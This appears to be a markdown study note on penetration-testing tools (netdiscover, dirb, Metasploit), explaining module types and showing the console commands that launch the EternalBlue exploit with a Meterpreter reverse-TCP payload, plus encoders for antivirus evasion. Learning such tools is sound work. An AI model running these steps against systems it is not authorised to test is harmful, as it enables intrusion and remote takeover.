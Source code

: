 # Using Tool
-------------------
<!-- This is for tools usage for attack -->
# Step for penastration testing
1. Discover host or target in a network
    - Tools like:
        - **netdiscover** : is an active/passive ARP reconnaissance tool, initially developed to gain infor‐
       mation about wireless networks without DHCP servers in wardriving scenarios. It can  also  be
       used on switched networks. Built on top of libnet and libpcap, it can passively detect online
       hosts or search for them by sending ARP requests.

            Furthermore, it can be used to inspect your network's ARP traffic, or find network  addresses using auto scan mode, which will scan for common local networks.
            ``` sudo netdiscover ```

        - **dirb** `https://www.kali.org/tools/dirb/`: DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the responses.
2. Simulating attack
    - Tools like:
        - **msfconsole**: In msfconsole (part of the Metasploit Framework), a module refers to a self-contained component that performs a specific task. Modules are the building blocks of the framework and can be used to conduct various penetration testing activities, such as scanning, exploitation, and post-exploitation.
            - **Types of Modules in Metasploit**
                1. Exploit Modules
                    - Purpose: These modules are used to exploit vulnerabilities in a target system. Exploit modules contain the code necessary to take advantage of a specific vulnerability in the target software.
                    - Example: exploit/windows/smb/ms17_010_eternalblue (used to exploit the MS17-010 vulnerability in Windows).
                2. Auxiliary Modules
                    - Purpose: These modules perform tasks other than exploitation, such as scanning, sniffing, fuzzing, and information gathering. They help identify potential vulnerabilities or gather useful data about a target.
                    - Example: auxiliary/scanner/portscan/tcp (used for TCP port scanning).
                3. Payload Modules
                    - Purpose: A payload is the code that is executed on the target system after an exploit successfully compromises it. Payloads are typically used to establish a remote connection back to the attacker or to execute malicious code on the target.
                    - Example: windows/meterpreter/reverse_tcp (establishes a reverse connection to the attacker’s machine and provides a Meterpreter shell).
                4. Post Modules
                    - Purpose: These modules are used after successful exploitation to perform post-exploitation tasks, such as privilege escalation, gathering system information, or maintaining persistence on the target system.
                    - Example: post/windows/gather/enum_applications (collects information about installed applications on a compromised Windows machine).
                5. Encoder Modules
                    - Purpose: These are used to encode payloads in various formats, helping evade security mechanisms like antivirus or intrusion detection systems.
                    - Example: x86/shikata_ga_nai (an encoder that can be used to obfuscate payloads).
                6. NOP (No-Operation) Modules
                    - Purpose: These modules are used to generate strings of NOP instructions (No Operation) to ensure that payloads have proper alignment or to evade detection systems.
                    - Example: x86/single_byte (generates NOP instructions for x86 architectures).
            - **<span style="color: green;"><u>Structure of a Module</u></span>**
                - Every module in Metasploit typically consists of:

                    - **Module Name**: Defines the specific task of the module, e.g., exploit/windows/smb/ms17_010_eternalblue.
                    - **Options**: These are settings that need to be configured, such as RHOST (remote host) and LHOST (local host). Each module has a set of required and optional options.
                    - **Actions**: Some modules allow multiple actions, like different types of scanning in auxiliary modules.
            - **Example of a Module Workflow**
                - Consider the exploit module ms17_010_eternalblue. Here’s how you would interact with it:
                    1. <b>Use the Module:</n>
                        ``` use exploit/windows/smb/ms17_010_eternalblue ```
                    2. **Show Options (to see the configurable parameters):**
                        ``` show options ```
                    3. **Set Options (e.g., set the target host and payload):**
                        ``` set RHOST 192.168.1.5 set ```
                        ``` PAYLOAD windows/x64/meterpreter/reverse_tcp ```
                    4. **Run the Module:** ```run```
            - **Module Path Structure**
                - The naming convention of modules follows a specific directory structure that helps users easily identify the type of module. For example:
                    ```exploit/windows/smb/ms17_010_eternalblue```
                - **exploit**: Module type (exploit).
                - **windows**: Target operating system or platform.
                - **smb**: The service or protocol targeted (in this case, SMB).
                - **ms17_010_eternalblue**: The specific vulnerability or exploit.
            - Summary: 
                Modules in msfconsole are the core components that allow you to perform tasks like vulnerability exploitation, information gathering, payload execution, and post-exploitation activities. The modular nature of Metasploit makes it highly flexible and customizable, enabling penetration testers to mix and match different modules to fit their specific needs.


